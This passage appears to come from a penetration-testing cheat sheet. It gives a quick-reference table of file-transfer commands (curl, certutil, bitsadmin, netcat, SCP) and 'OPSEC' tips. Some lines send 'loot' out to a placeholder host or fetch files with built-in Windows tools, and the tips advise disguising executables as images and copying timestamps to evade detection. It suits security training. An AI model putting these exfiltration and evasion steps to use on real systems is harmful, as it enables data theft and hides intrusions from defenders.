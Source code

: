 ***

### XI. ⚡ Quick Reference Table

| Method                                | Command                                      | Platform    |
| ------------------------------------- | -------------------------------------------- | ----------- |
| **HTTP Download (curl)**              | `curl -O http://IP/file`                     | Linux/macOS |
| **HTTP Download (Invoke-WebRequest)** | `Invoke-WebRequest -Uri URL -OutFile dest`   | Windows     |
| **SMB Copy**                          | `copy \\IP\share\file C:\Temp\`              | Windows     |
| **Certutil**                          | `certutil -urlcache -split -f URL file`      | Windows     |
| **Netcat**                            | `nc IP PORT < file` / `nc -lvnp PORT > file` | All         |
| **Base64**                            | `base64 file > out` / `base64 -d out > file` | All         |
| **Bitsadmin**                         | `bitsadmin /transfer job /download ...`      | Windows     |
| **SCP**                               | `scp file user@IP:/dest/`                    | Linux/macOS |
| **Curl Upload**                       | `curl -T loot.zip http://IP`                 | All         |

***

### XII. 🧠 Pro Tips for OPSEC

* **Use HTTPS or SMB3** for encryption.
*   **Timestamp files** for tracking:

    ```bash
    touch -r original file_copy
    ```
* **Avoid fingerprints**: rename `.exe` to `.dat` or `.jpg` for storage.
*   **Compress before transfer**:

    ```bash
    tar czf archive.tar.gz /path
    ```
*   **Verify integrity**:

    ```bash
    md5sum file
    certutil -hashfile file.exe MD5
    ```

***

